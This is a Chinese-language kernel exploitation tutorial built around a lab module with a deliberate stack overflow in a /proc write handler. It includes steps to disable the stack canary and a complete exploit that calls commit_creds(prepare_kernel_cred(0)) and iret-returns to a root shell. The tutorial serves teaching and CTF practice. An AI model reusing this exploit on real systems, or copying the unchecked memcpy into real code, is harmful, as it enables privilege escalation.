 # 新手玩转Linux Kernel漏洞之Kernel_Stack_Buffer_Overflow

### 序言
> &nbsp;&nbsp;&nbsp;&nbsp;这是`Linux`内核漏洞入门的第二篇, 由于其他大佬已经将整个提权流程将的很清楚, 此处不再赘述, 本文说一些其他大佬没讲到的地方--`exp`的解读．

### 驱动代码
*提醒*: 关闭内核`canary`的保护, 将`.config`的`CONFIG_CC_STACKPROTECTOR=y`改为`CONFIG_CC_STACKPROTECTOR=n`,重新编译.
```c
/*
 * stack_smashing.c
 */
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

int bug2_write(struct file *file,const char *buf,unsigned long len)
{
	char localbuf[8];
	memcpy(localbuf,buf,len); //vulnerability
	return len;
}

static int __init stack_smashing_init(void)
{
	printk(KERN_ALERT "stack_smashing driver init!\n");
	create_proc_entry("bug2",0666,0)->write_proc = bug2_write;
	return 0;
}

static void __exit stack_smashing_exit(void)
{
	printk(KERN_ALERT "stack_smashing driver exit!\n");
}

module_init(stack_smashing_init);
module_exit(stack_smashing_exit);
```
*Makefile*
```bash
obj-m := stack_smashing.o  
KERNELDR := ~/linux_kernel/linux-2.6.32.1  #内核代码根目录
PWD := $(shell pwd)  
modules:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules  
moduels_install:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules_install  
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions

```
### EXP
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

struct trap_frame {
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));

struct trap_frame tf;

void get_shell(void)
{
    execl("/bin/sh", "sh", NULL);
}

void init_tf_work(void)
{
    asm("pushl %cs; popl tf+4;" // set cs
        "pushfl; popl tf+8;" // set eflags
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &get_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xc1057120;
void *(*commit_creds)(void *) KERNCALL = (void *) 0xc1056f80;

void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf, %esp;"
        "iret;");
}

int main(void)
{
    char buf[24];
    memset(buf, 'A', 24);
    *((void **)(buf+20)) = &payload; // set eip to payload
    init_tf_work();
    int fd = open("/proc/bug2", O_WRONLY);
    // exploit
    write(fd, buf, sizeof(buf));
    return 0;
}
```
### 解读
*0.知识准备*
> 看懂这篇`exp`之前, 需要一些知识储备. 请前往[指针解疑](https://blog.csdn.net/qq_33528164/article/details/80470620)学习

*1. main*
```c
 *((void **)(buf+20)) = &payload; // 劫持eip
  init_tf_work();                 // 初始一个iret返回的内容组
  /*
   * tf = eip = get_shell
   * tf + 0x4 = cs
   * tf + 0x8 = eflag
   * tf + 0xc = esp
   * tf + 0x10 = ss
   * tf.esp -= unused part of stack
   */
```
*2. iret*
> &nbsp;&nbsp;&nbsp;&nbsp;当使用IRET指令返回到相同保护级别的任务时，IRET会从堆栈弹出代码段选择子及指令指针分别到CS与IP寄存器，并弹出标志寄存器内容到EFLAGS寄存器.
> &nbsp;&nbsp;&nbsp;&nbsp;当使用IRET指令返回到一个不同的保护级别时，IRET不仅会从堆栈弹出以上内容，还会弹出堆栈段选择子及堆栈指针分别到SS与SP寄存器.

*3. 执行`payload`函数*
```c
void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    /*
     *prepare_kernel_cred(0)--> 模拟内核传递参数方式, 使用寄存器传递.
     *commit_creds 同上,
     */
    asm("mov $tf, %esp;"
        "iret;");
    /*
     * 将构造好的内容赋值给esp
     * iret -> 触发漏洞, eip = get_shell
     */
}
```
*4. get root*
> 总体思路: 将进程提权为`root`进程, 获取一个`root shell`

![result02](./02.png)
### 相关链接
[bestwing](http://bestwing.me/2017/04/10/write-kernel-exploits-2/)
[BruceFan](http://pwn4.fun/2017/04/20/Linux%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88%E4%B8%89%EF%BC%89Kernel-Stack-Buffer-Overflow/)
[文件下载](https://github.com/BBS-Bill-Gates/CTF/tree/master/Linux_Kernel_Vulnerability/Kernel_Stack_Buffer_Overflow)
[外文的PDF](https://raw.githubusercontent.com/BBS-Bill-Gates/CTF/master/Linux_Kernel_Vulnerability/Kernel_Stack_Buffer_Overflow/kernel-exploits.pdf)
